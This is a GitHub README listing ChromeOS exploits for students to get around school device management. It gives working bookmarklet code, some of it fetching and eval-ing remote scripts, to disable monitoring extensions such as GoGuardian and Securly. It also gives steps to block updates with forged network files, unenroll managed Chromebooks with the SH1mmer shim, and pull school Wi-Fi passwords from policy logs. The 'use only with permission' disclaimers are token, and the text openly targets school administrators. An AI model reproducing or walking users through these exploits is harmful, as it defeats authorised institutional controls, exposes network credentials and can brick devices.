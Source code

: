 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b> (Unenroll and more)</summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  
This exploit can be used to completely unenroll enterprise-managed Chromebooks.  
  
**PLEASE FOLLOW EVERY DIRECTION!** If you do not, you could brick your chromebook.
  
More info: <a href="https://sh1mmer.me/">https://sh1mmer.me/</a>  
- FAQ: <a href="https://sh1mmer.me/faq.html">https://sh1mmer.me/faq.html</a>
- Credits: <a href="https://sh1mmer.me/credits.html">https://sh1mmer.me/faq.html</a>
  
This exploit works quite like downgrading, but requires a few more steps.  
<i>Requirements</i>  
- A USB with atleast 16gbs
- A personal computer

<i>Setup</i>

1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

**NOTE: IT IS ILLADVISED TO USE PREBUILT SHIMS FROM RANDOM PEOPLE AS SOME ARE TROJANS WHICH WILL BRICK YOUR CHROMEBOOK, YOU HAVE BEEN WARNED, ALWAYS COMPARE THE HASHES OF THE SHIM WITH A TRUSTED PERSONS HASH** When in doubt, make your own shim, if you brick your chromebook, have fun explaining that to your sysadmin

2. Make sure your board is in this list: `brask, brya, clapper, coral, dedede, enguarde, glimmer, grunt, hana, hatch, jacuzzi, kukui, nami, octopus, orco, pyro, reks, sentry, stout, strongbad, tidus, ultima, volteer, zork` If it is not, then this exploit will not work.
3. This next step can be hard for some people who are stupid and can't use computers, so if you are dumb, make someone else do it or just dont do it. You will need Windows or Linux (cry rich MacOS users), there is also a web version for those smooth brained people

Build Process: Web ~~idiot~~

1. Download your board [here](https://chromeos-rma-leaks.me/SHIMS/)
2. Upload your file [here](https://chromeos-rma-leaks.me/) and click inject shim
3. Wait (This can be about 7 minutes for octo, 2 min for good computers)
4. Profit
  
Build Process: Windows

1. Download wax4windows from https://dl.sh1mmer.me/build-tools (windows folder btw)
2. Extract the zip file fully
3. Open the application
4. Select "Select RMA Shim from local"
5. Select the .bin file of the RMA shim you are modifying to be a sh1mmer payload (if you dont have one, https://lenovo-driver-download.com)
6. Click "Inject SH1mmer payload"
7. Wait from 1-10 minutes (depending on your CPU and IO speed)
8. Profit

Build process: Linux

1. Install vboot-utils (archlinux aur) or cgpt (debian/ubuntu and dirr, sudo apt install cgpt)
2. Download and extract source-code (mini).zip from https://dl.sh1mmer.me/build-tools
3. Change your working directory into SOURCE-CODE-ROOT/wax (cd wax)
4. Change wax.sh to be executable (chmod 755 wax.sh)
5. Run wax with sudo ./wax.sh <PATH-TO-RMA-SHIM>
6. Wait from 30 seconds to 5 minutes, depending on IO speed
7. Profit

Note if you can not do this, I may help you, depends on my mood, discord.gg/3kh0 >:(

4. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>  

If the Chromebook Recovery Utility doesn't work, you can use Rufus or any other USB flasher. The Chromebook Recovery Utility isn't very good, but I had to use it just to make sure the guide was streamlined between all operating systems. Download Rufus here: https://rufus.ie

5. Open the extention, and click on the settings button in to top right hand corner, click "use local image"

![image](https://user-images.githubusercontent.com/58097612/212979292-61787616-f640-47f8-8aee-2b37baf66b58.png)

6. Select the .bin file you downloaded
7. Click the blue button
8. Wait

<i>Instlation</i>

1. Enter recovery mode on your Managed Chromebook. This is done by pressing the power button, reload key (↻), and esc key at the same time. Your screens should look like the image below:

![image](https://user-images.githubusercontent.com/58097612/212979580-afb09ba1-e851-49a1-9b72-71092c46af43.png)
![image](https://user-images.githubusercontent.com/58097612/212979638-8af8d0ed-d080-4d7d-938a-a6723cff4d5e.png)

2. Press ctrl+d, then enter
3. It will now say something about "returning to secure mode" or that "OS verification is off", this means ou are ready to boot Sh1mmer. It will look the like the images below:

![image](https://user-images.githubusercontent.com/58097612/212979781-926be545-fb6e-4441-bebe-ff89e7d4a1f1.png)
![image](https://user-images.githubusercontent.com/58097612/212979798-65f45aa3-616a-4ccf-8636-2b94cce86686.png)

4. Press the power button, reload key (↻), and esc key at the same time again.
5. Plug your shimmed USB into your Chromebook, and press the power button, reload key (↻), and esc key again.

![image](https://user-images.githubusercontent.com/58097612/212979889-019e53e9-1f39-4536-900d-d95585c65bd6.png)

6. Navigate to "Payloads", then click on "Unenroll"
7. Nagigate back to the pain page, and click "Reboot"

Enjoy your new, unenrolled chromebook!

Please use this only when you have permisson, I (3kh0) and Mercury Workshop do not condone the use of this exploit for illegal purposes!

Further reading (if you like this stuff)
- https://www.reddit.com/r/MercuryWorkshop/comments/10kz7rr/sh1mmer_official_post/
- https://sh1mmer.me/
- https://www.youtube.com/watch?v=AYZBhfmLtxk
- https://youtu.be/6ND_yrboOKM
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google    service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
<details>
<summary><b>Wifi Password</b> (Get school wifi passwords)</summary>
You can get your school's wifi password if it is built into the enrolement!

![image](https://user-images.githubusercontent.com/58097612/212685463-cfd45697-a90f-42dd-8295-2bcdb5edcd4f.png)

*This tool should not be used for illegal activity. By using this tool, you acknowledge that you are legally allowed to extract the password(s) in question.*

1. Visit chrome://net-export
2. In "OPTIONS" set "Include raw bytes"
3. Click "Start Logging to Disk"
4. Visit chrome://policy
5. Click "Reload policies"
6. Go back to chrome://net-export and click "Stop logging"
7. Upload file [here!](https://luphoria.com/netlog-policy-password-tool)
8. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
